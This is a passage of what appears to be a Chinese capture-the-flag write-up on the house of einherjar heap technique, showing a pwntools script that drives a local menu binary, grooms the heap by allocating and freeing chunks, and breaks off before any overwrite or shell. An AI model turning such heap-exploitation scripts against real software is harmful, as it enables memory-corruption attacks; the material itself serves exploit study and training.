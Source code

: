 至此 fake chunk 满足 house of einherjar 条件，可以实现堆块重叠

```python
from pwn import *
# patchelf --set-interpreter new_ld_address file_path
# patchelf --replace-needed old_libc.so.6 new_libc.so.6 file_path
# pycharm # ctrl+/

# local pwn
elf_path = './test'
elf = ELF(elf_path)
context(arch=elf.arch, os=elf.os, log_level="debug")
p = process([elf_path])

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------

def add_chunk(index, size):
    sa(b"choice:\n", b"1")
    sa(b"index:\n", str(index).encode())
    sa(b"size:\n", str(size).encode())

def delete_chunk(index):
    sa(b"choice:\n", b"2")
    sa(b"index:\n", str(index).encode())

def edit_chunk(index, content):
    sa(b"choice:\n", b"3")
    sa(b"index:\n", str(index).encode())
    sa(b"length:\n", str(len(content)).encode())
    sa(b"content:\n", content)

def show_chunk(index):
    sa(b"choice:\n", b"4")
    sa(b"index:\n", str(index).encode())

def exit_p():
    sa(b"choice:\n", b"5")

add_chunk(0, 0x18)
add_chunk(1, 0x418)
add_chunk(2, 0x108)
add_chunk(3, 0x418)
add_chunk(4, 0x438)
add_chunk(5, 0x108)
add_chunk(6, 0x428)
add_chunk(7, 0x108)

delete_chunk(1)
delete_chunk(4)
delete_chunk(6)
```